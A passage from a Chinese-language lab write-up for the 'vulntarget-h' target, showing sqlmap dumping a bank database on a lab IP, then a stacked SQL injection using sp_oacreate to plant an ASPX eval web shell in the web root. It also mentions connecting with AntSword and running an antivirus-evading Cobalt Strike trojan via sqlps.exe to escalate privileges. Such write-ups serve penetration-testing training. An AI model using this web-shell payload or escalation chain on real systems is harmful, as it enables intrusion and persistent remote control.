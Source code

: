 > | temp           |
> | wwwroot        |
> +----------------+
> 
> [10:11:27] [INFO] table 'FoundStone_Bank.dbo.tmp' dumped to CSV file '/home/kali/.local/share/sqlmap/output/192.168.1.99/dump/FoundStone_Bank/tmp.csv'
> [10:11:27] [WARNING] HTTP error codes detected during run:
> 500 (Internal Server Error) - 61 times
> [10:11:27] [INFO] fetched data logged to text files under '/home/kali/.local/share/sqlmap/output/192.168.1.99'
> 
> [*] ending @ 10:11:27 /2022-06-30/
> ```
> 
> ##### 将shell写入网站根目录。
> 
> + 从上面的结果发现有一个比较特别的目录。接下来我们尝试在该目录写入shell。这里我们先做一下免杀防止被删除，我就不把免杀的shell放出来了。
> 
> ```bash
> http://192.168.1.99/index.aspx?user_id=1;
> declare @f int,@g int;
> exec sp_oacreate 'Scripting.FileSystemObject',@f output;
> EXEC SP_OAMETHOD @f,'CreateTextFile',@f OUTPUT,'c:\inetpub\edrfgyhujikopl\shell.aspx',1;
> EXEC sp_oamethod  @f,'WriteLine',null,'<%@ Page Language="Jscript"%><%var a = "un";var b = "safe";Response.Write(eval(Request.Item["z"],a%2Bb));%>';
> ```
> 
> + 使用蚁剑链接上我们刚才上传的shell。
> 
> ![Screenshot_2022-06-30_10-29-41.png](../images/vulntarget-h-WriteUp/Screenshot_2022-06-30_10-29-41.png)
> 
> ##### 提升权限
> 
> + 使用CS生存木马然后免杀上传的服务器，然后利用`sqlps.exe`执行命令刚才上传的木马。
> 